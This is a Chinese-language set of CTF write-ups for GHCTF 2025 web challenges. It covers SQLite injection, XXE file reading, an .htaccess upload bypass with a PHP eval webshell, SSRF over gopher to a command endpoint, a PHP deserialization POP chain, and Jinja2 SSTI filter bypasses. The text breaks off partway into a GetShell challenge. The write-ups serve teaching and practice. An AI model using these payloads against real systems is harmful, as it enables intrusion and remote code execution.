[GHCTF 2025]SQL???
题目链接：
https://www.nssctf.cn/problem/6575
题解(wp)
首先打开题目发现是一个很明显的SQL注入（虽然题目已经给了）

这里可以看到出题人给的提示（每次执行的sql语句），可以看到并不需要闭合，直接跟上查询即可

尝试猜解字段

一共5列

很多人到这进一步之后就直接使用mysql语句直接注入（我也一样😶），在这之后就一直跟这个sql语句过不去了，一直怀疑是题目过滤了一大堆东西
然后突然间想到23年的国赛题目，也是SQL注入
https://blog.mo60.cn/index.php/archives/2023-China-Skills-Security-Answer.html
题目+答案+2023年全国职业院校技能大赛信息安全管理与评估真题 - JunBlog
想到可能是数据库的不同
转换思想，尝试用每个sql数据库的不同sql语句尝试
查看回显位
http://node1.anna.nssctf.cn:28691/?id=1 union select 1,2,3,4,5

果不其然，通过sqlite_version()函数确认了数据库
http://node1.anna.nssctf.cn:28691/?id=1 union select 1,sqlite_version(),3,4,5

这里推荐一篇讲sqlite注入的文章
使用sql from sqlite_master查看表名
http://node1.anna.nssctf.cn:28691/?id=1 union select 1,sqlite_version(),3,4,sql from sqlite_master

可以看到存在flag表
那就直接查看flag
http://node1.anna.nssctf.cn:28691/?id=1 union select 1,2,3,4,group_concat(flag) from flag

[GHCTF 2025] (>﹏<)
题目链接
https://www.nssctf.cn/problem/6578
题解(wp)
打开题目发现返回了源码（缩进呢！！！🖕🖕🖕🖕）

尝试恢复缩进
from flask import Flask, request
import base64
from lxml import etree
import re
app = Flask(__name__)
@app.route('/')
def index():
return open(__file__).read()
@app.route('/ghctf', methods=['POST'])
def parse():
xml = request.form.get('xml')
print(xml)
if xml is None:
return "No System is Safe."
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
root = etree.fromstring(xml, parser)
name = root.find('name').text
return name or None
if __name__ == "__main__":
app.run(host='0.0.0.0', port=8080)
在代码中导入了Flask、request、base64、lxml.etree和re模块。然后创建了一个Flask应用实例
app = Flask(__name__)
定义了两个路由：根路径’/‘和’/ghctf’的POST请求处理函数。
@app.route('/')
@app.route('/ghctf', methods=['POST'])
接下来看到处理’/ghctf’的POST的函数parse()
@app.route('/ghctf', methods=['POST'])
def parse():
xml = request.form.get('xml')
print(xml)
if xml is None:
return "No System is Safe."
它从请求表单中获取名为’xml’的参数，然后打印出来。如果没有提供xml参数，就返回”No System is Safe.”
接着使用etree.XMLParser配置解析器，允许加载DTD并解析实体。然后尝试解析传入的xml字符串，并提取
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
root = etree.fromstring(xml, parser)
name = root.find('name').text
return name or None
因为解析器启用了resolve_entities=True，所以这里我推断存在xxe（XML外部实体注入（XXE）漏洞）
构建xml引用file:///flag
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<root>
<name>&xxe;</name>
</root>
将xml进行url编码
并使用POST发包
xml=%3C!DOCTYPE%20foo%20[%3C!ENTITY%20xxe%20SYSTEM%20%22file:///flag%22%3E]%3E%3Croot%3E%3Cname%3E%26xxe;%3C/name%3E%3C/root%3E

flag
NSSCTF{e6a0765a-7b69-4b91-b17b-103f97cf97f8}
[GHCTF 2025]UPUPUP
题目链接
https://www.nssctf.cn/problem/6590
题解(wp)
打开题目

文件上传题目
尝试上传phpinfo()


看来是对文件内容有过滤
换一种
直接在图片末尾加上

上传

上传成功，但是却是以jpg结尾的（php结尾的会被过滤），无法解析
想到apache服务器的上传.htaccess文件进行解析绕过


😕
想到了文件头绕过
但如果直接在 .htaccess 开头加⼊ GIF89A 的话访问整个 images ⽬录下的⽂件都会爆
500, 会出现语法错误
.htaccess 通过 # 来注释, 后来了解到还有 \x00
#define width 1
#define height 1
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>

上传成功

上传一句话木马
hey.hey
#define width 1
#define height 1
<?php
eval($_POST["anro"]);
?>


[GHCTF 2025]Goph3rrr
题目链接
https://www.nssctf.cn/problem/6582
题解（wp）

打开题目
看看前端有没有什么东西

什么都没找到
使用dirsearch 进行目录扫描


打开源码
from flask import Flask, request, send_file, render_template_string
import os
from urllib.parse import urlparse, urlunparse
import subprocess
import socket
import hashlib
import base64
import random
app = Flask(__name__)
BlackList = [
"127.0.0.1"
]
@app.route('/')
def index():
return '''
<html>
<head>
<style>
body {
background-size: cover; /* 背景图片覆盖整个页面 */
height: 100vh; /* 页面高度填满浏览器窗口 */
display: flex;
justify-content: center; /* 水平居中 */
align-items: center; /* 垂直居中 */
color: white; /* 字体颜色 */
font-family: Arial, sans-serif; /* 字体 */
text-align: center; /* 文字居中 */
}
h1 {
font-size: 50px;
transition: transform 0.2s ease-in-out; /* 设置浮动效果过渡时间 */
}
h1:hover {
transform: translateY(-10px); /* 向上浮动 */
}
</style>
</head>
<body>
<h1>Hello Ctfer!!! Welcome to the GHCTF challenge! (≧∇≦)</h1>
</body>
</html>
'''
@app.route('/Login', methods=['GET', 'POST'])
def login():
junk_code()
if request.method == 'POST':
username = request.form.get('username')
password = request.form.get('password')
if username in users and users[username]['password'] == hashlib.md5(password.encode()).hexdigest():
return b64e(f"Welcome back, {username}!")
return b64e("Invalid credentials!")
return render_template_string("""
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Login</title>
<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
<style>
body {
background-color: #f8f9fa;
}
.container {
max-width: 400px;
margin-top: 100px;
}
.card {
border: none;
border-radius: 10px;
box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
}
.card-header {
background-color: #007bff;
color: white;
text-align: center;
border-radius: 10px 10px 0 0;
}
.btn-primary {
background-color: #007bff;
border: none;
}
.btn-primary:hover {
background-color: #0056b3;
}
</style>
</head>
<body>
<div class="container">
<div class="card">
<div class="card-header">
<h3>Login</h3>
</div>
<div class="card-body">
<form method="POST">
<div class="mb-3">
<label for="username" class="form-label">Username</label>
<input type="text" class="form-control" id="username" name="username" required>
</div>
<div class="mb-3">
<label for="password" class="form-label">Password</label>
<input type="password" class="form-control" id="password" name="password" required>
</div>
<button type="submit" class="btn btn-primary w-100">Login</button>
</form>
</div>
</div>
</div>
</body>
</html>
""")
@app.route('/Gopher')
def visit():
url = request.args.get('url')
if url is None:
return "No url provided :)"
url = urlparse(url)
realIpAddress = socket.gethostbyname(url.hostname)
if url.scheme == "file" or realIpAddress in BlackList:
return "No (≧∇≦)"
result = subprocess.run(["curl", "-L", urlunparse(url)], capture_output=True, text=True)
return result.stdout
@app.route('/RRegister', methods=['GET', 'POST'])
def register():
junk_code()
if request.method == 'POST':
username = request.form.get('username')
password = request.form.get('password')
if username in users:
return b64e("Username already exists!")
users[username] = {'password': hashlib.md5(password.encode()).hexdigest()}
return b64e("Registration successful!")
return render_template_string("""
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Register</title>
<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
<style>
body {
background-color: #f8f9fa;
}
.container {
max-width: 400px;
margin-top: 100px;
}
.card {
border: none;
border-radius: 10px;
box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
}
.card-header {
background-color: #28a745;
color: white;
text-align: center;
border-radius: 10px 10px 0 0;
}
.btn-success {
background-color: #28a745;
border: none;
}
.btn-success:hover {
background-color: #218838;
}
</style>
</head>
<body>
<div class="container">
<div class="card">
<div class="card-header">
<h3>Register</h3>
</div>
<div class="card-body">
<form method="POST">
<div class="mb-3">
<label for="username" class="form-label">Username</label>
<input type="text" class="form-control" id="username" name="username" required>
</div>
<div class="mb-3">
<label for="password" class="form-label">Password</label>
<input type="password" class="form-control" id="password" name="password" required>
</div>
<button type="submit" class="btn btn-success w-100">Register</button>
</form>
</div>
</div>
</div>
</body>
</html>
""")
@app.route('/Manage', methods=['POST'])
def cmd():
if request.remote_addr != "127.0.0.1":
return "Forbidden!!!"
if request.method == "GET":
return "Allowed!!!"
if request.method == "POST":
return os.popen(request.form.get("cmd")).read()
@app.route('/Upload', methods=['GET', 'POST'])
def upload_avatar():
junk_code()
if request.method == 'POST':
username = request.form.get('username')
if username not in users:
return b64e("User not found!")
file = request.files.get('avatar')
if file:
file.save(os.path.join(avatar_dir, f"{username}.png"))
return b64e("Avatar uploaded successfully!")
return b64e("No file uploaded!")
return render_template_string("""
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Upload Avatar</title>
<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
<style>
body {
background-color: #f8f9fa;
}
.container {
max-width: 400px;
margin-top: 100px;
}
.card {
border: none;
border-radius: 10px;
box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
}
.card-header {
background-color: #dc3545;
color: white;
text-align: center;
border-radius: 10px 10px 0 0;
}
.btn-danger {
background-color: #dc3545;
border: none;
}
.btn-danger:hover {
background-color: #c82333;
}
</style>
</head>
<body>
<div class="container">
<div class="card">
<div class="card-header">
<h3>Upload Avatar</h3>
</div>
<div class="card-body">
<form method="POST" enctype="multipart/form-data">
<div class="mb-3">
<label for="username" class="form-label">Username</label>
<input type="text" class="form-control" id="username" name="username" required>
</div>
<div class="mb-3">
<label for="avatar" class="form-label">Avatar</label>
<input type="file" class="form-control" id="avatar" name="avatar" required>
</div>
<button type="submit" class="btn btn-danger w-100">Upload</button>
</form>
</div>
</div>
</div>
</body>
</html>
""")
@app.route('/app.py')
def download_source():
return send_file(__file__, as_attachment=True)
if __name__ == '__main__':
app.run(host='0.0.0.0', port=8000)
讲真的拿到源码的时候，我看到了一长串的密文被吓到了，然后往前翻的时候才看到这是背景图片的base64……..
分析源码
首先分析各个路由都是干嘛的
/Login和/RRegister路由
登录和注册
处理用户登录和注册。用户密码使用MD5哈希存储
/Gopher 路由和/Manage路由
接收一个url参数，然后使用curl访问该URL
很容易就想到了SSRF，需要绕过过滤
- 检查URL的scheme是否是file，如果是则拒绝。
- 解析URL的主机名，获取其真实IP（realIpAddress），并检查是否在黑名单BlackList中（当前只有127.0.0.1）。
- 如果通过检查，则用curl访问该URL，并返回结果。
@app.route('/Gopher')
def visit():
url = request.args.get('url')
if url is None:
return "No url provided :)"
url = urlparse(url)
realIpAddress = socket.gethostbyname(url.hostname)
if url.scheme == "file" or realIpAddress in BlackList:
return "No (≧∇≦)"
result = subprocess.run(["curl", "-L", urlunparse(url)], capture_output=True, text=True)
return result.stdout
/Upload路由
允许上传头像，保存为PNG文件，由于源码采用的是Flask，可能不会执行
在处理上传文件时,如果用户名包含模板注入的payload，并且文件名被渲染到模板中，可能导致SSTI。但当前代码中，上传成功后的返回信息是经过base64编码的，没有使用模板渲染,所以不大可能存在ssti
分析漏洞点
从每个路由的作用和功能来看，目前就只有ssrf这一个突破点😤
现在唯一可能的方法是使用Gopher协议发送POST请求，并且绕过hostname的检查。
也就是构造一个Gopher URL，并且不能存在于黑名单
也就是不能等于127.0.0.1
app = Flask(__name__)
BlackList = [
"127.0.0.1"
]
这里我提供两种解决方法
第一种：
利用DNS重绑定攻击，让请求的URL不包含127.0.0.1
这里推荐一篇关于DNS重绑定攻击的文章
https://blog.csdn.net/qq_36348899/article/details/119297854
重绑定的网址
https://lock.cmpxchg8b.com/rebinder.html
第二种：
我们的URL地址不能包含127.0.0.1，但是并没有说地址不能包含其它的127的地址呀
也就是所有以127开头的本地回环地址都可以作为发送的URL地址
这里我就采用第二种方法
构造一个Gopher URL，发送的数据以POST请求到127.0.0.1:8000/Manage，并携带cmd参数
有点绕，重新梳理一下
- /Manage路由的POST请求可以执行命令，但必须remote_addr是127.0.0.1。
- /Gopher路由存在SSRF，但无法发送POST请求，并且当连接到127.0.0.1时会被过滤。
那么第一步，首先构造Gopher URL
http://node6.anna.nssctf.cn:24175/Manage
并且POST发包，发送cmd参数
cmd=env
完整的请求为
POST /Manage HTTP/1.1
host:127.0.0.1
Content-Type:application/x-www-form-urlencoded
Content-Length:7
cmd=env
第二步，将构造的Gopher URL作为参数发送到<font style="color:rgb(64, 64, 64);">/Gopher</font>路由
将上面的完整请求转化为参数，经过两次url转码
变为
POST%2520%252FManage%2520HTTP%252
F1.1%250Ahost%253A127.0.0.1%250AContent-Type%253Aapplication%252Fx-www-for
m-urlencoded%250AContent-Length%253A7%250A%250Acmd%253Denv
把参数和127.0.0.2:8000进行拼接（黑名单过滤了127.0.0.1所以用127.0.0.2）
/Gopher?url=gopher://127.0.0.2:8000/_POST%2520%252FManage%2520HTTP%252
F1.1%250Ahost%253A127.0.0.1%250AContent-Type%253Aapplication%252Fx-www-for
m-urlencoded%250AContent-Length%253A7%250A%250Acmd%253Denv
发包

成功获取flag
NSSCTF{5631b4f8-a764-40a0-acf7-cb05bcd40a00}
为什么用env命令
其它参数也试过但没有找到flag,谁会想到它藏在了环境当中啊💔
[GHCTF 2025]Popppppp
题目链接
https://www.nssctf.cn/problem/6591
题解（wp）
打开题目

<?php
error_reporting(0);
class CherryBlossom {
public $fruit1;
public $fruit2;
public function __construct($a) {
$this->fruit1 = $a;
}
function __destruct() {
echo $this->fruit1;
}
public function __toString() {
$newFunc = $this->fruit2;
return $newFunc();
}
}
class Forbidden {
private $fruit3;
public function __construct($string) {
$this->fruit3 = $string;
}
public function __get($name) {
$var = $this->$name;
$var[$name]();
}
}
class Warlord {
public $fruit4;
public $fruit5;
public $arg1;
public function __call($arg1, $arg2) {
$function = $this->fruit4;
return $function();
}
public function __get($arg1) {
$this->fruit5->ll2('b2');
}
}
class Samurai {
public $fruit6;
public $fruit7;
public function __toString() {
$long = @$this->fruit6->add();
return $long;
}
public function __set($arg1, $arg2) {
if ($this->fruit7->tt2) {
echo "xxx are the best!!!";
}
}
}
class Mystery {
public function __get($arg1) {
array_walk($this, function ($day1, $day2) {
$day3 = new $day2($day1);
foreach ($day3 as $day4) {
echo ($day4 . '<br>');
}
});
}
}
class Princess {
protected $fruit9;
protected function addMe() {
return "The time spent with xxx is my happiest time" . $this->fruit9;
}
public function __call($func, $args) {
call_user_func([$this, $func . "Me"], $args);
}
}
class Philosopher {
public $fruit10;
public $fruit11="sr22kaDugamdwTPhG5zU";
public function __invoke() {
if (md5(md5($this->fruit11)) == 666) {
return $this->fruit10->hey;
}
}
}
class UselessTwo {
public $hiddenVar = "123123";
public function __construct($value) {
$this->hiddenVar = $value;
}
public function __toString() {
return $this->hiddenVar;
}
}
class Warrior {
public $fruit12;
private $fruit13;
public function __set($name, $value) {
$this->$name = $value;
if ($this->fruit13 == "xxx") {
strtolower($this->fruit12);
}
}
}
class UselessThree {
public $dummyVar;
public function __call($name, $args) {
return $name;
}
}
class UselessFour {
public $lalala;
public function __destruct() {
echo "Hehe";
}
}
if (isset($_GET['GHCTF'])) {
unserialize($_GET['GHCTF']);
} else {
highlight_file(__FILE__);
}
直接看最后有接收参数，并且进行反序列化
ok，太长😱，不做了
该来的还是会来的
首先可以确认的是一道pop链构造，并且要找到⼀整条链⼦的构造，
那么就要找到链尾（就是执行恶意代码的地方）
分析这些类都是干啥的
- CherryBlossom类：
__destruct()方法会输出fruit1，如果fruit1是一个对象，可能会触发其__toString()方法。__toString()方法会调用fruit2作为函数，所以如果fruit2是一个可调用的对象（比如有__invoke()方法），就会触发。
class CherryBlossom {
public $fruit1;
public $fruit2;
public function __construct($a) {
$this->fruit1 = $a;
}
function __destruct() {
echo $this->fruit1;
}
public function __toString() {
$newFunc = $this->fruit2;
return $newFunc();
}
}
- Forbidden类：
__get()方法会尝试调用$var[$name]()。这里如果$var是一个数组，并且某个键对应的方法存在，可能会被调用。
- Warlord类：
__call()方法会调用fruit4作为函数。__get()方法会调用fruit5->ll2('b2')，如果fruit5有ll2方法的话。
- Samurai类：
__toString()方法调用fruit6->add()，如果fruit6有add()方法的话。__set()方法检查fruit7->tt2是否为真，可能触发__get()。
- Mystery类：
__get()方法使用array_walk遍历自身属性，可能会实例化某些类并输出内容。
- Princess类：
__call()方法会尝试调用addMe()，但似乎没有明显的危险操作。
- Philosopher类：
__invoke()方法在对象被当作函数调用时触发。这里检查md5(md5($this->fruit11)) == 666，如果满足，返回fruit10->hey。需要找到fruit11的值使得双重MD5等于666，但看起来fruit11默认是”sr22kaDugamdwTPhG5zU”，可能需要覆盖它。
- UselessTwo类：
- 简单的
__toString()，返回隐藏变量。
- Warrior类：
__set()方法在设置属性时触发，可能通过strtolower触发其他操作。
那么链尾就明了了，就是Samurai类的_get()方法
但是该如何触发这_get方法呢？
在从不可访问的属性读取数据或者不存在这个键都会调⽤ __get() ⽅法。
此时我们发现在 Philosopher 这个类中存在访问不存在的键值 key 这个操作，⾃然就会触发 _
_get() 函数

我们发现该函数是魔术魔⽅ __invoke() ；那么我们就继续想如何才能触发这个 __invoke() 函数
呢？当尝试将对象调⽤为函数时触发 __invoke() 。所以此时我们就需要寻找有哪个对象被当作函数
进⾏调⽤了。
我们继续进⾏源码审计发现在 Warlord 这个类中出现了将对象调⽤为函数的操作：

我们观察到该函数为魔术魔⽅ _call() ；那么我们就继续想如何才能触发这个 __call() ；在对象
上下⽂中调⽤不可访问的⽅法或不存在的⽅法时触发 __call() 。
34再接着源码审计可以看到在 Samurai 这个类中出现了不可访问的⽅法 add() ；此时⾃然就会触
发 __call() 函数。

我们观察到该函数为魔术魔⽅ __toString() ；那么我们就继续想如何才能触发这个 __toString
() 函数呢？在将对象当作字符串使⽤时就会触发 __toString（） ；所以此时我们就需要寻找有哪个
对象被当作字符串进⾏调⽤了。
继续审计发现在 CherryBlossom 类中出现了将对象 fruit1 当作字符串进⾏使⽤的操作

⾄此整条pop链已经⾮常的清晰了
__destruct -> __toString -> __call ->__invoke() ->__get
也就是
CherryBlossom{__destruct()} --> Samurai{__toString()} --> Warlord{__call
()} --> Philosopher{__invoke()} --> Mystery{__get()}
但是此时我们发现要实现这⼀整条 pop 链还有⼀步没有绕过；我们发现在最后⼀步 __get() 函数的触
发时需要满⾜。
public function __invoke() {
if (md5(md5($this->fruit11)) == 666) {
return $this->fruit10->hey;
}
}
双重MD5
此时利⽤到的是双重md5绕过：
# -*- coding: utf-8 -*-
# 运⾏: python2 md5.py "666" 0
import multiprocessing
import hashlib
import random
import string
import sys
CHARS = string.ascii_letters + string.digits
def cmp_md5(substr, stop_event, str_len, start=0, size=20):
global CHARS
while not stop_event.is_set():
rnds = ''.join(random.choice(CHARS) for _ in range(size))
md5 = hashlib.md5(rnds)
value = md5.hexdigest()
if value[start: start + str_len] == substr:
# print rnds
# stop_event.set()
# 碰撞双md5
md5 = hashlib.md5(value)
if md5.hexdigest()[start: start + str_len] == substr:
print rnds + "=>" + value + "=>" + md5.hexdigest() + "\n"
stop_event.set()
if __name__ == '__main__':
substr = sys.argv[1].strip()
start_pos = int(sys.argv[2]) if len(sys.argv) > 1 else 0
str_len = len(substr)
cpus = multiprocessing.cpu_count()
stop_event = multiprocessing.Event()
processes = [multiprocessing.Process(target=cmp_md5, args=(substr,
stop_event,
str_len, start_pos))
for i in range(cpus)]
for p in processes:
p.start()
for p in processes:
p.join()
反序列化之遍历⽂件⽬录类
<?php
error_reporting(0);
class CherryBlossom
{
public $fruit1;
public $fruit2;
function __destruct()
{
echo $this->fruit1;
}
public function __toString()
{
$newFunc = $this->fruit2;
return $newFunc();
}
}
class Mystery
{
public $GlobIterator="/*";
public function __get($arg1)
{
array_walk($this, function ($day1, $day2) {
$day3 = new $day2($day1);
foreach ($day3 as $day4) {
echo($day4 . '<br>');
}
});
}
}
class Philosopher
{
public $fruit10;
public $fruit11="rSYwGEnSLmJWWqkEARJp";
public function __invoke()
{
if (md5(md5($this->fruit11)) == 666) {
return $this->fruit10->hey;
}
}
}
$b=new CherryBlossom();
$b->fruit1=new CherryBlossom();
$b->fruit1->fruit2=new Philosopher();
$b->fruit1->fruit2->fruit10=new Mystery();
$c=serialize($b);
echo $c;


爆出了flag的位置
反序列化之读取⽂件类
此时成功遍历⽂件⽬录后我们直接读取⽂件即可
<?php
error_reporting(0);
class CherryBlossom
{
public $fruit1;
public $fruit2;
function __destruct()
{
echo $this->fruit1;
}
public function __toString()
{
$newFunc = $this->fruit2;
return $newFunc();
}
}
class Mystery
{
public $SplFileObject="/flag44545615441084";
public function __get($arg1)
{
array_walk($this, function ($day1, $day2) {
$day3 = new $day2($day1);
foreach ($day3 as $day4) {
echo($day4 . '<br>');
}
});
}
}
class Philosopher
{
public $fruit10;
public $fruit11="rSYwGEnSLmJWWqkEARJp";
public function __invoke()
{
if (md5(md5($this->fruit11)) == 666) {
return $this->fruit10->hey;
}
}
}
$b=new CherryBlossom();
$b->fruit1=new CherryBlossom();
$b->fruit1->fruit2=new Philosopher();
$b->fruit1->fruit2->fruit10=new Mystery();
$c=serialize($b);
echo $c;

[GHCTF 2025]upload?SSTI!
题目链接
https://www.nssctf.cn/problem/6529
题解（wp）
# upload?SSTI!
import os
import re
from flask import Flask, request, jsonify,render_template_string,send_from_directory, abort,redirect
from werkzeug.utils import secure_filename
import os
from werkzeug.utils import secure_filename
app = Flask(__name__)
# 配置信息
UPLOAD_FOLDER = 'static/uploads' # 上传文件保存目录
ALLOWED_EXTENSIONS = {'txt', 'log', 'text','md','jpg','png','gif'}
MAX_CONTENT_LENGTH = 16 * 1024 * 1024 # 限制上传大小为 16MB
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['MAX_CONTENT_LENGTH'] = MAX_CONTENT_LENGTH
# 创建上传目录（如果不存在）
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
def is_safe_path(basedir, path):
return os.path.commonpath([basedir,path])
def contains_dangerous_keywords(file_path):
dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]
with open(file_path, 'rb') as f:
file_content = str(f.read())
for keyword in dangerous_keywords:
if keyword in file_content:
return True # 找到危险关键字，返回 True
return False # 文件内容中没有危险关键字
def allowed_file(filename):
return '.' in filename and \
filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
@app.route('/', methods=['GET', 'POST'])
def upload_file():
if request.method == 'POST':
# 检查是否有文件被上传
if 'file' not in request.files:
return jsonify({"error": "未上传文件"}), 400
file = request.files['file']
# 检查是否选择了文件
if file.filename == '':
return jsonify({"error": "请选择文件"}), 400
# 验证文件名和扩展名
if file and allowed_file(file.filename):
# 安全处理文件名
filename = secure_filename(file.filename)
# 保存文件
save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
file.save(save_path)
# 返回文件路径（绝对路径）
return jsonify({
"message": "File uploaded successfully",
"path": os.path.abspath(save_path)
}), 200
else:
return jsonify({"error": "文件类型错误"}), 400
# GET 请求显示上传表单（可选）
return '''
<!doctype html>
<title>Upload File</title>
<h1>Upload File</h1>
<form method=post enctype=multipart/form-data>
<input type=file name=file>
<input type=submit value=Upload>
</form>
'''
@app.route('/file/<path:filename>')
def view_file(filename):
try:
# 1. 过滤文件名
safe_filename = secure_filename(filename)
if not safe_filename:
abort(400, description="无效文件名")
# 2. 构造完整路径
file_path = os.path.join(app.config['UPLOAD_FOLDER'], safe_filename)
# 3. 路径安全检查
if not is_safe_path(app.config['UPLOAD_FOLDER'], file_path):
abort(403, description="禁止访问的路径")
# 4. 检查文件是否存在
if not os.path.isfile(file_path):
abort(404, description="文件不存在")
suffix=os.path.splitext(filename)[1]
print(suffix)
if suffix==".jpg" or suffix==".png" or suffix==".gif":
return send_from_directory("static/uploads/",filename,mimetype='image/jpeg')
if contains_dangerous_keywords(file_path):
# 删除不安全的文件
os.remove(file_path)
return jsonify({"error": "Waf!!!!"}), 400
with open(file_path, 'rb') as f:
file_data = f.read().decode('utf-8')
tmp_str = """<!DOCTYPE html>
<html lang="zh">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>查看文件内容</title>
</head>
<body>
<h1>文件内容：{name}</h1> <!-- 显示文件名 -->
<pre>{data}</pre> <!-- 显示文件内容 -->
<footer>
<p>© 2025 文件查看器</p>
</footer>
</body>
</html>
""".format(name=safe_filename, data=file_data)
return render_template_string(tmp_str)
except Exception as e:
app.logger.error(f"文件查看失败: {str(e)}")
abort(500, description="文件查看失败:{} ".format(str(e)))
# 错误处理（可选）
@app.errorhandler(404)
def not_found(error):
return {"error": error.description}, 404
@app.errorhandler(403)
def forbidden(error):
return {"error": error.description}, 403
if __name__ == '__main__':
app.run("0.0.0.0",debug=False)
下载附件，发现是源码，开始代码审计
审完发现，重点在于这一块
@app.route('/file/<path:filename>')
def view_file(filename):
try:
# 1. 过滤文件名
safe_filename = secure_filename(filename)
if not safe_filename:
abort(400, description="无效文件名")
# 2. 构造完整路径
file_path = os.path.join(app.config['UPLOAD_FOLDER'], safe_filename)
# 3. 路径安全检查
if not is_safe_path(app.config['UPLOAD_FOLDER'], file_path):
abort(403, description="禁止访问的路径")
# 4. 检查文件是否存在
if not os.path.isfile(file_path):
abort(404, description="文件不存在")
suffix=os.path.splitext(filename)[1]
print(suffix)
if suffix==".jpg" or suffix==".png" or suffix==".gif":
return send_from_directory("static/uploads/",filename,mimetype='image/jpeg')
if contains_dangerous_keywords(file_path):
# 删除不安全的文件
os.remove(file_path)
return jsonify({"error": "Waf!!!!"}), 400
在 /file 下才能触发上传文件，还发现有关键词过滤
def contains_dangerous_keywords(file_path):
dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]
简单的关键词过滤，字符串拼接就能过
先尝试触发一下 ssti
payload:49
访问 /file/

测试一下能不能获取类
payload: {{’’|attr(”class”)}}
应为下划线被过滤，所以用 | attr 代替
“”.class == “”|attr(“class”)
再次访问

并没有回显，继续尝试 lipsum
payload : {{lipsum}}

思路明确了，直接尝试构造
payload :
{{lipsum|attr(”globals”).get(”os”).popen(”ls”).read()}}
但是在过滤中不但过滤了关键词 globals 和 os 还过滤了下划线，所以我们尝试使用 unicode 编码绕过
所以最终 payload 为
{{((((lipsum|attr(“\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f”))|attr(“\u0067\u0065\u0074”)(“o””s”))|attr(“\u0070\u006f\u0070\u0065\u006e”)(“ls”))|attr(“\u0072\u0065\u0061\u0064”)())}}

除了 unicode 编码外，关键字过滤还能使用字符串拼接绕过
也可以不使用+号
os == 'o''s'
也可以不使用+号
os == 'o''s'
[GHCTF 2025]GetShell
题目链接
http://node1.anna.nssctf.cn:28578/
题解（wp）
开启靶场，发现给了源码
<?php
highlight_file(__FILE__);
class ConfigLoader {
private $config;
public function __construct() {
$this->config = [
'debug' => true,
'mode' => 'production',
'log_level' => 'info',
'max_input_length' => 100,
'min_password_length' => 8,
'allowed_actions' => ['run', 'debug', 'generate']
];
}
public function get($key) {
return $this->config[$key] ?? null;
}
}
class Logger {
private $logLevel;
public function __construct($logLevel) {
$this->logLevel = $logLevel;
}
public function log($message, $level = 'info') {
if ($level === $this->logLevel) {
echo "[LOG] $message\n";
}
}
}
class UserManager {
private $users = [];
private $logger;
public function __construct($logger) {
$this->logger = $logger;
}
public function addUser($username, $password) {
if (strlen($username) < 5) {
return "Username must be at least 5 characters";
}
if (strlen($password) < 8) {
return "Password must be at least 8 characters";
}
$this->users[$username] = password_hash($password, PASSWORD_BCRYPT);
$this->logger->log("User $username added");
return "User $username added";
}
public function authenticate($username, $password) {
if (isset($this->users[$username]) && password_verify($password, $this->users[$username])) {
$this->logger->log("User $username authenticated");
return "User $username authenticated";
}
return "Authentication failed";
}
}
class StringUtils {
public static function sanitize($input) {
return htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
}
public static function generateRandomString($length = 10) {
return substr(str_shuffle(str_repeat($x = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ', ceil($length / strlen($x)))), 1, $length);
}
}
class InputValidator {
private $maxLength;
public function __construct($maxLength) {
$this->maxLength = $maxLength;
}
public function validate($input) {
if (strlen($input) > $this->maxLength) {
return "Input exceeds maximum length of {$this->maxLength} characters";
}
return true;
}
}
class CommandExecutor {
private $logger;
public function __construct($logger) {
$this->logger = $logger;
}
public function execute($input) {
if (strpos($input, ' ') !== false) {
$this->logger->log("Invalid input: space detected");
die('No spaces allowed');
}
@exec($input, $output);
$this->logger->log("Result: $input");
return implode("\n", $output);
}
}
class ActionHandler {
private $config;
private $logger;
private $executor;
public function __construct($config, $logger) {
$this->config = $config;
$this->logger = $logger;
$this->executor = new CommandExecutor($logger);
}
public function handle($action, $input) {
if (!in_array($action, $this->config->get('allowed_actions'))) {
return "Invalid action";
}
if ($action === 'run') {
$validator = new InputValidator($this->config->get('max_input_length'));
$validationResult = $validator->validate($input);
if ($validationResult !== true) {
return $validationResult;
}
return $this->executor->execute($input);
} elseif ($action === 'debug') {
return "Debug mode enabled";
} elseif ($action === 'generate') {
return "Random string: " . StringUtils::generateRandomString(15);
}
return "Unknown action";
}
}
if (isset($_REQUEST['action'])) {
$config = new ConfigLoader();
$logger = new Logger($config->get('log_level'));
$actionHandler = new ActionHandler($config, $logger);
$input = $_REQUEST['input'] ?? '';
echo $actionHandler->handle($_REQUEST['action'], $input);
} else {
$config = new ConfigLoader();
$logger = new Logger($config->get('log_level'));
$userManager = new UserManager($logger);
if (isset($_POST['register'])) {
$username = $_POST['username'];
$password = $_POST['password'];
echo $userManager->addUser($username, $password);
}
if (isset($_POST['login'])) {
$username = $_POST['username'];
$password = $_POST['password'];
echo $userManager->authenticate($username, $password);
}
$logger->log("No action provided, running default logic");
} [LOG] No action provided, running default logic
命令执⾏点：此时的类名已经提示得很明显了：CommandExecutor
class CommandExecutor {
private $logger;
